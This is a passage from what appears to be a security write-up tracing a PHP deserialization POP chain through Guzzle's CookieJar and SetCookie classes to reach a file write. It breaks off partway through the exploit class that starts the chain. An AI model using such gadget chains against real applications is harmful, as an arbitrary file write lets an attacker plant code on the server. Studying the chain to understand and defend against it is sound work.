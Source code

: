 Then follow the `shouldPersist` method in `src/Cookie/CookieJar.php` to see how the written content should be constructed.

<div align=center><img src="./images/10.png"></div>

Find the corresponding available `getExpires` methods and `getDiscard` methods, follow up `src/Cookie/SetCookie.php`, `$data` controllable, and write to the file contents.

<div align=center><img src="./images/11.png"></div>

## POP Chain

```php
<?php

namespace GuzzleHttp\Cookie{
    
    class SetCookie {
        private static $defaults = [
            'Name' => null,
            'Value' => null,
            'Domain' => null,
            'Path'
=> '/',
            'Max-Age' => null,
            'Expires' => null,
            'Secure' => false,
            'Discard' => false,
            'HttpOnly' => false
        ];
        function __construct()
        {
```